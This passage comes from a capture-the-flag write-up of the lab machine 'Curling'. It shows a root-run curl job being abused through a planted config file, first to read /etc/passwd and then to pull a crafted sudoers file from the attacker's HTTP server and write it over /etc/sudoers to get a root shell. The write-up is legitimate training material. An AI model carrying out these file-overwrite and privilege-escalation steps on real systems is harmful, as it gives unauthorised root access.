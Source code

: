 Instead, I can put `OUTPUT=` option in `input` to make it write output in different place.

```bash
floris@curling:/home/floris/admin-area$ echo -e 'url = "file:///etc/passwd"\noutput = "/home/floris/passwd"' > input
```

Then, let's wait for a few seconds and check if the file is created.

```bash
floris@curling:~$ ls -al /home/floris/passwd
-rw-r--r-- 1 root root 1617 Jan  3 06:08 /home/floris/passwd
floris@curling:~$ head /home/floris/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

It works! I can simply read root flag through it!

If I want to spawn a root shell, there's another way to do it.
Using the options(`url`, `output`) I can modify `/etc/sudoers` file.

First, let's prepare `my-sudoers` file to overwrite `/etc/sudoers`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat my-sudoers 
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL
```

Then, let's modify `input` file to read the `my-sudoers` file and overwrite it on `/etc/sudoers`.

```bash
floris@curling:~/admin-area$ echo -e 'url = "http://10.10.14.4:8000/my-sudoers"\noutput = "/etc/sudoers"' > input
```

After a few minutes, let's check if the user `floris` is `sudoable`.

```bash
floris@curling:~$ sudo -l
User floris may run the following commands on curling:
    (ALL : ALL) ALL
```

It works! The user `floris` can do `sudo` with all commands.

```bash
floris@curling:~$ sudo su -
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
root@curling:~# whoami
root
```

I got a root shell!